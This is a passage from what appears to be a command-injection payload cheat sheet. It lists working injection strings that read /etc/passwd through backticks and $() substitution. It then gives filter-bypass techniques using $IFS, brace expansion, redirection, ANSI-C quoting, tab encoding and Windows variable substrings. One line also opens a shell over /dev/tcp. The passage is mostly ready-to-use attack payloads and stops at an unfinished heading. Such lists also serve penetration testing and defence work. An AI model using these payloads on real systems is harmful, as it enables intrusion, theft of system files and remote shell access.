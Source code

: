 * Command injection using backticks.

  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```

* Command injection using substitution

  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```

## Filter Bypasses

### Bypass Without Space

* `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a separator in commands like `ls`, `wget`; use `${IFS}` instead.

  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```

* In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.

  ```powershell
  {cat,/etc/passwd}
  ```

* Input redirection. The < character tells the shell to read the contents of the file specified.

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```

* ANSI-C Quoting

  ```powershell
  X=$'uname\x20-a'&&$X
  ```

* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.

  ```powershell
  ;ls%09-al%09/home
  ```

* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```
### Bypass via variable

